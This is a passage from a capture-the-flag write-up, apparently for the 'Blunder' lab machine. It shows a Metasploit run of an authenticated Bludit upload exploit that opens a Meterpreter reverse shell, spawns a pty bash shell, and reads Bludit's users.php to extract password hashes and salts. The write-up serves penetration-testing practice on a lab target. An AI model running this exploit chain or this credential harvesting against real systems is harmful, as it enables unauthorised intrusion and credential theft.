 Now that we have some valid credentials, we can use our authenticated exploit to get a shell on the machine. From there, we'll drop down to a simple shell and begin more enumeration to get to a user.

```
msf5 > use exploit/linux/http/bludit_upload_images_exec 
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS blunder.htb
RHOSTS => blunder.htb
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.142:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading pacJxphAkU.png...
[*] Uploading .htaccess...
[*] Executing pacJxphAkU.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.142:4444 -> 10.10.10.191:42570) at 2020-05-31 17:48:48 -0400
[+] Deleted .htaccess

meterpreter > shell
Process 4354 created.
Channel 0 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```

## User

The first thing to check is where Bludit stores its credentials because there might be more there. They are stored in `bl-content/databases/users.php`.

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
...
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
...
    },
    "fergus": {
...
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
...
    }
}
```
